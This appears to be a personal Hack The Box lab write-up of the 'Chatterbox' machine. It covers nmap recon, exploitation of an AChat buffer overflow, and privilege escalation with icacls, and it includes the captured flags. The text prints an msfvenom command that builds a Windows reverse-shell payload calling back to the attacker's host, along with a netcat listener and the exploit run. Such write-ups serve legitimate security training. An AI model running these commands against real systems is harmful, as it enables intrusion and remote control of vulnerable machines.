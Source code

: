 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Chatterbox
tags: []
---
```

**Start 19:32 24-08**

---
```
10.10.10.74
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.74                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 18:33 IST
Nmap scan report for 10.10.10.74
Host is up (0.088s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -T5 -vvvv -p- 10.10.10.74
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 18:33 IST
Nmap scan report for 10.10.10.74
Host is up, received conn-refused (0.086s latency).
Scanned at 2024-08-24 18:33:31 IST for 528s
Not shown: 65030 closed tcp ports (conn-refused), 494 filtered tcp ports (no-response)
PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         syn-ack AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        syn-ack AChat chat system
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-08-24T18:42:55-04:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38735/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57348/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 64306/udp): CLEAN (Timeout)
|   Check 4 (port 41545/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h20m43s, deviation: 2h18m35s, median: 5h00m42s
| smb2-time: 
|   date: 2024-08-24T22:42:53
|_  start_date: 2024-08-24T22:32:43
```

I notice a port I haven't seen right away: `9256/TCP - AChat`. Apparently this is some kind of chat service.


## 9256/TCP - AChat

After some digging around I found that there's a `buffer overflow` vulnerability for `AChat 0.150`:

![](../../../assets/0ae3c40471fcacbad4aeb0e8b331695a.png)

We can manually set up this exploit.

## Exploitation

==Foothold==
Using the above script I found I modified it to satisfy my needs:
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=80 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

I then grabbed the outputted `shellcode` and replaced the old shellcode with the new one in the `exploit`. I also modified the `server_address` variable and got to running:

![](../../../assets/84650bd09c7e7a00e490c6e4c080ee8b.png)

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...


┌──(kali㉿kali)-[~/Downloads]
└─$ python2 36025.py 
---->{P00F}!

# For some reason it just did not work with python3 so I had to use 2 instead.
```

After many tries it finally worked:

![](../../../assets/4d47a012bf13fa61e3c74ac997de003b.png)

==user.txt==
As always we head to `\alfred\Desktop` where we find the flag:

```powershell
C:\Users\Alfred\Desktop>type user.txt
type user.txt
178d1a3a68c352aea0188d8e7ff5f559
```


## Privilege Escalation

==OS Info==
I started of by running `systeminfo` and found that there were over 100 hotfixes for this version, which means that most vulnerabilities will probably have been patched. Nonetheless:

```powershell
C:\Users\Alfred\Desktop>systeminfo
systeminfo

Host Name:                 CHATTERBOX
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00371-222-9819843-86663
Original Install Date:     12/10/2017, 9:18:19 AM
System Boot Time:          8/24/2024, 6:32:35 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,549 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,626 MB
Virtual Memory: In Use:    469 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\CHATTERBOX
```

We see that we're working with a `Windows 7 Professional` system, as we already knew from our `nmap` scan. 

==icacls==
I quickly found out that I did not actually have to get `system privileges` as I already have access to the directory, I just don't have `read access`:

![](../../../assets/db98949e277da72074361a9e024d2442.png)

This means I can just change that by using the `icacls` command:

```powershell
icacls root.txt /grant alfred:F 
```

![](../../../assets/50575dc8d797796ca729a45cc9046ad9.png)

This is another way of getting [escalated read access](Windows%20Privilege%20Escalation.md#File%20&Directory%20Permissions#Misconfigured%20File%20Permissions) on certain files:

```powershell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9fb9f3d65b188768d7346196f620e9c8
```


![](../../../assets/68fe0c2a704e8b4f14a4cc8d1ae75588.png)

---

**Finished 22:26 24-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

#Shellcode 
